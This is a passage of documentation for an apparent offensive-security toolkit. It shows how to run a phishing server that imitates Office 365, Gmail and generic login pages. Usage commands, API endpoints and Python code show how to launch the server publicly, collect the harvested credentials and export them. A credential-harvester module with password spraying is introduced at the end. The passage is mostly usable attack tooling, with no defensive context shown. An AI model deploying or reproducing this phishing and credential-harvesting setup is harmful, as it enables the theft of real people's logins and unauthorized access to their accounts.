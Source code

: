 **Usage:**

```bash
# Start phishing server
python initial_access/phishing_server.py --port 8080

# Custom redirect URL
python initial_access/phishing_server.py --port 8080 --redirect https://office.com

# Quiet mode
python initial_access/phishing_server.py --port 8080 --quiet
```

**Available Pages:**
- `http://localhost:8080/office365` - Office 365 login clone
- `http://localhost:8080/gmail` - Gmail login clone
- `http://localhost:8080/login` - Generic login page

**API Endpoints:**
- `GET /api/harvested` - Retrieve all harvested credentials
- `GET /api/stats` - Get harvesting statistics

**Python API:**

```python
from initial_access.phishing_server import PhishingServer

server = PhishingServer(
    port=8080,
    harvest_file='creds.json',
    redirect_url='https://google.com'
)

# Start server
server.run(host='0.0.0.0')

# Get harvested credentials
creds = server.get_harvested_credentials()

# Export to file
server.export_to_file('output.json', format='json')
```

### 7. Credential Harvester (`initial_access/credential_harvester.py`)

Credential processing, validation, and password spraying tool.

**Features:**
- Credential storage and management
- Import from phishing harvests
- Credential validation
- Password spraying
- Analytics and reporting
- JSON/CSV export
